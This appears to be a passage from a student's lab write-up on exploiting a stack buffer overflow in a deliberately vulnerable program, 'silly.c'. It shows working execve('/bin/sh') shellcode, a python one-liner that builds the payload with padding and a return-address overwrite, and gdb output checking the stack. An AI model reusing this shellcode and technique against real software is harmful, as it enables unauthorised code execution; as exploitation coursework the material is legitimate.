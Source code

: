 ```sh
1094795588 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAEAAAAAAAAAAAAAAA\xeb\x17\x5e\x31\xc0\x50\x56\x31\xd2\xb0\x0b\x89\xf3\x89\xe1\xcd\x80\x31\xc0\xb0\x01\x31\xdb\xcd\x80\xe8\xe4\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68
1094795589 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAFAAAAAAAAAAAAAAA\xeb\x17\x5e\x31\xc0\x50\x56\x31\xd2\xb0\x0b\x89\xf3\x89\xe1\xcd\x80\x31\xc0\xb0\x01\x31\xdb\xcd\x80\xe8\xe4\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68
1094795590 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAGAAAAAAAAAAAAAAA\xeb\x17\x5e\x31\xc0\x50\x56\x31\xd2\xb0\x0b\x89\xf3\x89\xe1\xcd\x80\x31\xc0\xb0\x01\x31\xdb\xcd\x80\xe8\xe4\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68
1094795591 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAHAAAAAAAAAAAAAAA\xeb\x17\x5e\x31\xc0\x50\x56\x31\xd2\xb0\x0b\x89\xf3\x89\xe1\xcd\x80\x31\xc0\xb0\x01\x31\xdb\xcd\x80\xe8\xe4\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68
--- snip ---
```

- This spam of countless lines doesn't even stop it's almost like it's in infinite loop.
- I've tried writing `exploit.py` to try to automate this process.
- But whenever I'm supposed to pop a shell, countless lines of my input are thrown at me.
- That is because while overflowing the buffer, I'm also changing the contents of variables `i`, and `n` which are supposed to control the while loop.

--- 


## Attempt #3


- Let's format our exploit like this:

```sh
                                             .------------------------.
                                             |                        |
                                             |                        v
   ./vulnerable 5 <--------padding-----><address-of-shelcode><padding><shell code>
```


- But first, lets calculate the address:


```sh
(gdb) r 5 `python3 -c "import sys; sys.stdout.buffer.write(b'A'*48+b'\xef\xbe\xad\xde'+b'A'*4+b'\xeb\x17\x5e\x31\xc0\x50\x56\x31\xd2\xb0\x0b\x89\xf3\x89\xe1\xcd\x80\x31\xc0\xb0\x01\x31\xdb\xcd\x80\xe8\xe4\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68'+b'\x00')"`
Starting program: shellcode/unit_03_shell/bin/silly 5 `python3 -c "import sys; sys.stdout.buffer.write(b'A'*48+b'\xef\xbe\xad\xde'+b'A'*4+b'\xeb\x17\x5e\x31\xc0\x50\x56\x31\xd2\xb0\x0b\x89\xf3\x89\xe1\xcd\x80\x31\xc0\xb0\x01\x31\xdb\xcd\x80\xe8\xe4\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68'+b'\x00')"`
/bin/bash: line 1: warning: command substitution: ignored null byte in input

Breakpoint 2, vuln (n=5,
    str=0xffffd274 'A' <repeats 48 times>, "ﾭ\336AAAA\353\027^1\300PV1Ұ\v\211\363\211\341̀1\300\260\0011\333̀\350\344\377\377\377/bin/sh") at silly.c:14
14      in silly.c
(gdb) ni 6
0x08049214      17      in silly.c
(gdb) x/x $ebp+0xc
0xffffcf64:     0xeb
(gdb) x/3wx $ebp
0xffffcf58:     0x41414141      0xdeadbeef      0x41414141
(gdb) x/x $ebp+4
0xffffcf5c:     0xdeadbeef
```
